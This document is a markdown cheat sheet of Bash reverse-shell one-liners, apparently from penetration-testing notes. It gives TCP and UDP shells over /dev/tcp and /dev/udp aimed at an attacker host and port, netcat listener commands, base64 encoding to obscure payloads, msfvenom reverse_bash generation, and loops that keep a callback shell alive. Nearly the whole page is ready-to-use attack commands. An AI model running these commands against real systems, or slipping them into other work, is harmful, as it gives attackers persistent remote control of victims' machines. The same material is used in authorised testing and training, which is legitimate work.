# Bash

## 01 - TCP Method

Target

```
$ /bin/bash -i >& /dev/tcp/<IP>/<LPORT> 0>&1

$ nohup 0<&103-;exec 103<>/dev/tcp/<IP>/<LPORT>; sh <&103 >&103 2>&103 &2>/dev/null; sleep 1; exit
```

Attacker

```
userware@hackware-os:~$ nc -lnvp <LPORT>
```

## 02 - UDP Method

Target

```
$ /bin/bash -i >& /dev/udp/<IP>/<LPORT> 0>&1

$ nohup 0<&103-;exec 103<>/dev/udp/<IP>/<LPORT>; sh <&103 >&103 2>&103 &2>/dev/null; sleep 1; exit
```

Attacker

```
userware@hackware-os:~$ nc -luvp <LPORT>
```

You can encode it with base64 then execute it.

```
$ echo <base64_payload> | base64 -d

$ echo <base64_payload> | basenc --base64 -d
```

## 03 - Generate via `msfvenom`

```
$ msfvenom -p cmd/unix/reverse_bash lhost=<IP> lport=<PORT>

$ msfvenom -p cmd/unix/reverse_bash_telnet_ssl handlersslcert=[/path/to/file.pem] sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT>

$ msfvenom -p cmd/unix/reverse_bash_udp lhost=<IP> lport=<PORT>
```

## 04 - Persistent Callback Shell

- In case you might lose the callback connection. It's better to make it persistent.

```
$ while true; do /bin/bash -c /path/to/shell; sleep 10; done

$ while true; do /bin/bash -i >& /dev/<protocol>/<IP>/<LPORT> 0>&1; sleep 10; done
```

---
## References

- [Hacktricks: Shells Linux](https://book.hacktricks.xyz/shells/shells/linux)

- [D4Vinci: One-Lin3r](https://github.com/D4Vinci/One-Lin3r)